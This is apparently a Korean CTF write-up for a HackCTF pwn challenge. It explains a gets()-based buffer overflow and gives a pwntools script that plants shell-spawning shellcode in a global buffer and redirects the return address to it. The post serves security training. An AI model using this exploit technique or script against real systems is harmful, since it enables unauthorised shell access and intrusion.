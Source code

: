 ```yaml
---
title: "[ HackCTF ] 내 버퍼가 흘러넘친다!!!"
date: 2023-03-07T12:22:04.284Z
categories: ["Wargame", "HackCTF"]
tags: ["HackCTF","pwn"]
---
```

### **문제 분석**

---

![](/images/50071ced-062c-4b62-ad3a-7283ba190bc4-image.png)

이름을 입력받고 gets 함수로 다시 값을 입력받고 있다.

여기서 입력받는 문자열의 길이를 확인하지 않아 BOF가 발생하게 된다.

<br>
<br>

### **문제 풀이**

---

변수 s는 크기가 작아 쉘코드를 넣을 수 없다.

따라서 name에 쉘코드를 넣고 BOF를 발생시켜 return address를 name으로 바꿔주면 된다.

```python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3003)

name = 0x804a060

context.arch = 'i386'
shellcode = shellcraft.sh()
shellcode = asm(shellcode)

payload = ''
payload += '\x90'*0x14
payload += '\x90'*4
payload += p32(name)

p.sendlineafter('Name : ', shellcode)
p.sendlineafter('input : ', payload)

p.interactive()
```
